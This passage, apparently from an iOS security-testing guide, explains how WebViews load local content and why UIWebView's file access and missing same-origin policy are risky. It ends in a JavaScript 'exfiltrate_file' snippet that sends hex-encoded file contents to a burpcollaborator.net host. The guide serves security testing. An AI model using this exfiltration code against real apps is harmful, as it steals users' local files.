 ### WebView content load

* **UIWebView**: It can use deprecated methods [`loadHTMLString:baseURL:`](https://developer.apple.com/documentation/uikit/uiwebview/1617979-loadhtmlstring?language=objc) or [`loadData:MIMEType:textEncodingName:baseURL:`](https://developer.apple.com/documentation/uikit/uiwebview/1617941-loaddata?language=objc)to load content.
* **WKWebView**: It can use the methods  [`loadHTMLString:baseURL:`](https://developer.apple.com/documentation/webkit/wkwebview/1415004-loadhtmlstring?language=objc) or [`loadData:MIMEType:textEncodingName:baseURL:`](https://developer.apple.com/documentation/webkit/wkwebview/1415011-loaddata?language=objc) to load local HTML files and `loadRequest:` for web content. Typically, the local files are loaded in combination with methods including, among others: [`pathForResource:ofType:`](https://developer.apple.com/documentation/foundation/nsbundle/1410989-pathforresource), [`URLForResource:withExtension:`](https://developer.apple.com/documentation/foundation/nsbundle/1411540-urlforresource?language=objc) or [`init(contentsOf:encoding:)`](https://developer.apple.com/documentation/swift/string/3126736-init). In addition, you should also verify if the app is using the method [`loadFileURL:allowingReadAccessToURL:`](https://developer.apple.com/documentation/webkit/wkwebview/1414973-loadfileurl?language=objc). Its first parameter is `URL` and contains the URL to be loaded in the WebView, its second parameter `allowingReadAccessToURL` may contain a single file or a directory. If containing a single file, that file will be available to the WebView. However, if it contains a directory, all files on that **directory will be made available to the WebView**. Therefore, it is worth inspecting this and in case it is a directory, verifying that no sensitive data can be found inside it.

If you have the source code you can search for those methods. Having the **compiled** **binary** you can also search for these methods:

```bash
$ rabin2 -zz ./WheresMyBrowser | grep -i "loadHTMLString"
231 0x0002df6c 24 (4.__TEXT.__objc_methname) ascii loadHTMLString:baseURL:
```

### File Access

* **UIWebView:**
  * The `file://` scheme is always enabled.
  * File access from `file://` URLs is always enabled.
  * Universal access from `file://` URLs is always enabled.
  * If you retrieve the effective origin from a `UIWebView` where `baseURL` is also set to `nil` you will see that it is **not set to "null"**, instead you'll obtain something similar to the following: `applewebdata://5361016c-f4a0-4305-816b-65411fc1d78`0. This origin "applewebdata://" is similar to the "file://" origin as it **does not implement Same-Origin Policy** and allow access to local files and any web resources.

{% tabs %}
{% tab title="exfiltrate_file" %}
```javascript
String.prototype.hexEncode = function(){
    var hex, i;
    var result = "";
    for (i=0; i<this.length; i++) {
        hex = this.charCodeAt(i).toString(16);
        result += ("000"+hex).slice(-4);
    }
    return result
}

var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
    if (xhr.readyState == XMLHttpRequest.DONE) {
        var xhr2 = new XMLHttpRequest();
        xhr2.open('GET', 'http://187e2gd0zxunzmb5vlowsz4j1a70vp.burpcollaborator.net/'+xhr.responseText.hexEncode(), true);
        xhr2.send(null);
    }
}
```